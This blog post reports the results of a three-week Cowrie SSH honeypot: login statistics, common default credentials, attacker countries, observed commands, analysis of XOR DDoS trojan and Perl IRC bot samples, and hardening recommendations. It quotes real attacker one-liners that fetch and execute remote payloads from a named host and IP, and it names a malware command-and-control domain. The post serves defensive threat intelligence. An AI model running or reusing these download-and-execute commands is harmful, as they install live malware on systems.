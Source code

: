```yaml
---
layout: post
title: Cowrie Honeypot Analysis Results
tags: [Security, Honeypot]
---
```

During the period 16th of August 2017 to 6th of September 2017 a honeypot was deployed utilising the open source honeypot software Cowrie. Cowrie is a medium interaction SSH and Telnet honeypot designed to log brute force attacks and the shell interaction performed by the attacker. The honeypot was deployed on a Digital Ocean virtual private server (VPS) located in San Francisco, US. The honeypot was deployed as a research honeypot for the purpose of gaining threat intelligence on attackers as they interacted with the honeypot. 
The honeypot was deployed with a Splunk universal forwarder which sent the data recorded by the honeypot to a Splunk Enterprise instance, also deployed via Digital Ocean. The app ‘Tango Honeypot Intelligence’ was used to interpret Cowrie logs and provide actionable Cyber Threat Intelligence (CTI) and statistics. Overall the honeypot was successful receiving multiple connections and scans a day, whilst providing useful threat information and malware specimens to be analysed. This Intelligence report will discuss the results of the honeypot exercise and provide analysis on attacker interactions with the honeypot.

### Connections
Over the 22 days that the honey pot was active, there were a total of 1754 different IP addresses interacted with the honeypot in the form of either successful or unsuccessful connections. There were 16,527 login attempts throughout the life of the honeypot with 2074 successful attempts and 14,453 failed attempts. This equates to approximately 80 different IP addresses connecting the honeypot per day, with 751 attempted logins a day. It is noted that the days of high activity occurred on a Friday, Saturday or Sunday meaning that attackers were active over Weekend periods. The day of lowest activity, aside from the day the honeypot was launched was a Monday. 

### Username and Passwords
The following table details the top 10 usernames attempted by attackers 

Username | Count
--- | ---

admin |	6648
root	| 2599
support	| 604
service |	363
usuario |	358
user	| 355
ubnt	| 354
test	| 336
ubuntu	| 204
pi	| 200

The top 10 usernames attempted show a number of standard usernames which one would expect to see, such as ‘admin’, ‘root’, ‘support’ and ‘service’ and some interesting usernames as well. Of note, the username ‘usuario’ is the Spanish word for user. The username ‘ubnt’ is the default password for [Ubiquity’s UniFi Access Points]( https://help.ubnt.com/hc/en-us/articles/204909374-UniFi-What-is-the-default-username-password-for-UAPs-and-controller-), which have an SSH connection capability. The username ‘pi’ is also the default username for [Rasbian Linux]( https://www.raspberrypi.org/documentation/linux/usage/users.md), the standard operating system for Raspberry Pi’s. 
The following table details the top 10 passwords attempted by attackers:
Password |	Count
--- | ---
 	| 754
password |	735
123456 |	730
admin |	610
1234 | 542
support |	539
12345	| 525
default	| 512
admin1	| 437
admin1234	| 422

The top 10 passwords are what would be expected as standard for a honeypot, with a blank password, ‘password’ and ‘123456’ taking equal share of the top three attempted passwords. It is assessed that attackers would have been using a standard password dictionary file to brute force logins to the honeypot.
The following table details the top 10 username and password combinations:
Username/Password Combination |	Count
--- | ---
root/	 | 688
support/support	| 517
admin/admin	| 500
admin/default	| 449
admin/password	| 441
admin/admin1	| 421
admin/12345	| 420
admin/admin1234	| 406
admin/aerohive	| 401
admin/admin123	| 399

The top 10 username and password combinations essentially combine the top two usernames with the top 10 passwords. The one exception to this is the username and password combination ‘admin/aerohive’. This username and password combination is the default username and password for [Aerohive Networks]( https://www.cleancss.com/router-default/Aerohive/HiveAP_350) range of routers and wireless access points. 

###Locations
The Tango Honeypot Intelligence app provides locational data on the IPs that interact with the honeypot. This information cannot be relied upon or used for attribution as it only determines the location of the device that interacted with the device. An attacker may be interacting with the honeypot through a VPN or VPS located in another country. 
The following graph demonstrates the top 5 countries that scanned the honeypot:
 [Top 5 logged in countries](/img/loginCountry.png)

The following graph demonstrates the top 5 countries that logged into the honeypot:

[Top 5 logged in countries](/img/scannedCountry.png)

The prominent presence of Vietnam in scanning and China in successful logins is consisted with results produced by [Kaspersky’s IoT honeytrap labs]( https://securelist.com/honeypots-and-the-internet-of-things/78751/) in 2016, where these two nations were the top two nations conducting attacks (Kuskov et al., 2017). All nations, with the exception of France both feature in Kaspersky’s results as well as in [Ryan Chinn’s Honeypot and IoT analysis]( https://msmis.eller.arizona.edu/sites/msmis/files/documents/sfs_papers/ryan_chinn_sfs_masters_paper_0.pdf) which indicates that attacks and scans from these nations are a common occurrence. 

###Sessions
A session is defined as a successful login and the execution of commands within the honeypot. Of the 2074 successful logins, there were only 926 sessions with commands executed. The top 10 commands run on the honeypot are detailed in the following table:
Command Entered |	Count
--- | ---
uname -a	| 1606
free -m	| 84
ps x	| 74
uname	| 42
uname	| 42
cat /proc/cpuinfo	|28
wget https://rootr258.000webhostapp.com/arhive/perl.pl&&perl perl.pl&&perl perl.pl&&rm -rf perl.pl&&uname -a	| 23
wget https://rootr258.000webhostapp.com/arhive/perl.pl	| 23
uname -a && cat /etc/issue	| 22
cat /etc/issue	| 22

The vast majority of IP’s that connected to the honeypot executed ‘uname -a’ as their only commands and then ended their session. Often attackers would execute the top three commands, ‘uname -a’, ‘free -m’ and ‘ps x’ in the one session. It is assessed that this behaviour is that of an automated script or bot designed to brute force the SSH login and then gather information on the victim PC by obtaining the system version, memory information and running processes. Automating this process would allow an attacker to review the information to determine potential targets for them to further explore.
The two ‘wget’ commands in the top 10 were all performed by the same IP located in France across 23 sessions. The attacker initially downloaded the file with the ‘wget’ command and then downloaded the file again and attempted to execute and then remove the file. 
Human vs Bot Interaction
The Tango Honeypot Intelligence app provides data on what is assessed as human interaction and what is assessed as bot interaction. This assessment is performed based on the timestamps of the interaction. Interactions where the number of commands entered seem suspicious for the length of the session are often identified as bots, interactions that are longer will be identified as being potentially human. The following graph demonstrates the level of human versus bot interaction with the honeypot. 
 [Human Vs Bot](/img/botVhuman.png)

There were only 8 unique files downloaded to the honeypot with the majority of these being performed by suspected bots. A typical bot download would involve the use of the following command - wget http://157.52.151.116/a21jj curl -O http://157.52.151.116/a21jj chmod +x a21jj ./a21jj. This command downloads the piece of malware, makes it executable and then executes the file. The final command the attacker executes is – ls -la /var/run/gcc.pid. The presence of /var/run/gcc.pid confirms the presence of the [XOR DDOS Trojan]( https://blog.checkpoint.com/wp-content/uploads/2015/10/sb-report-threat-intelligence-groundhog.pdf).
There were sessions where attackers attempted to extract system information from the system, this ranged from data on the system itself such as iptables and cpu information through to extracting SSH keys and /etc/shadow and /etc/password. In one occurrence, the attacker pipped this system information into gzip and then encoded it using base64. However, in all sessions in which the attacker probed for system information and prepared it for extraction there is no evidence of any extraction occurring from the system. 
The third type of session that was observed was one in which the attacker will login to the system and then immediately clear all history and remove all log files. The attacker will then go through and recreate each of these files using the touch command. This behaviour was performed twice by one individual IP address located in New Delhi, India with no evidence that they had connected to the honeypot prior. 

###Malware Analysis
There were 48 files downloaded to the honeypot, only 8 generated unique SHA256 hashes. Of these 8 files, 5 were ELF files, two were perl scripts and one was a python script. The python script was downloaded and not executed on the honeypot. Reviewing the python scripted identified it as a script that connected to speedtest.net and provided command line speedtest.net data. However, after investigating the URL the script was downloaded from, the site redirected to mrreacher.com, which appears to be an individual from Romania, who has coded a number of DDOS along with game hacks and cheats. It is assessed that the speedtest.net script was downloaded as part of reconnaissance being conducted by ‘Mr Reacher’. 
The two perl scripts are both identical with the exception of the information provided in their comments. Both scripts identify themselves as being a ‘DDOS Perl IrcBot v1.0’, however one states it was created in 2012 by ‘DDOS Security Team’ and the other being created in 2013 by ‘vK’. Both of these files were executed on the honeypot. 
The 5 ELF files were identified as being the XOR DDOS Trojan by [VirusTotal.com]( https://www.virustotal.com/). Running each of these ELF files through [detux.org]( https://detux.org/); a Linux Sandbox system, it was identified that all 5 executables attempted to connect to the same domain ww.gzcfr5axf7.com. The executables then attempted to make UDP connections out to 39 different IP Addresses. The manner in which these files were executed on the honeypot also confirms that they are the XOR DDOS Trojan, each of the attackers were identified as being bots by Tango Honeypot Intelligence due to the automated manner and speed in which they executed their commands and they each looked to confirm the presence of /var/run/gcc.pid after executing. 

###Recommendations
Based on the Cyber Threat Intelligence gathered by the honeypot exercise. The following are the recommendations for securing a network against the attacks seen on the Cowrie honeypot:
- Disable root login over SSH – This will prevent attackers from gaining root level permissions if they are able to brute force a login.
- Limit failed SSH login attempts – This will prevent brute force attacks, by limiting their effectiveness or by blocking the IP after too many failed attempts. 
- Use SSH Public Keys – By disabling password authentication and enabling SSH public keys, attackers will be unable to brute force access to the server
- Block known IP addresses – The IP addresses that interacted with the honeypot should be blocked via firewall rules or IPS. This ensures that known attackers cannot continue to attack in the future.
- Block malicious domains and IP addresses – The domains and IP addresses that are known to contain malware should be blocked from being connected from within the network.
- Integrate XOR DDOS Bot data into SIEM – The honeypot provided valuable data on how the XOR DDOS Trojan interacted once it was able to brute force a connection. Implementing alerts within a SIEM application for commands such as ‘ls -la /var/run/gcc.pid’ would alert to the potential for this bot running within the network.
- Integrate File Integrity Monitoring (FIM) into SIEM – By integrating FIM into SIEM, it will provide greater information on the modification of files by malware, as well as alert of the presence of known malware.

###Conclusion
The deployment of a Cowrie honeypot was effective in gaining valuable Cyber Threat Intelligence on attackers and their activities. From the data collected it was evident that a large number of automated scripts and bots were active in brute forcing their way into the system. The presence of the XOR DDOS Trojan on the system further confirms that bots were active in targeting the network. The vast majority of interactions with the honeypot is assessed to be bots that are conducting reconnaissance activities by obtaining information on the system. It is assessed that these bots then feed this information back to attackers for them to assess whether the system is a potential target of value. The Cyber Threat Intelligence gained by the honeypot allows network defenders to strengthen their networks from the threats observed by implementing the recommendations made in this report.
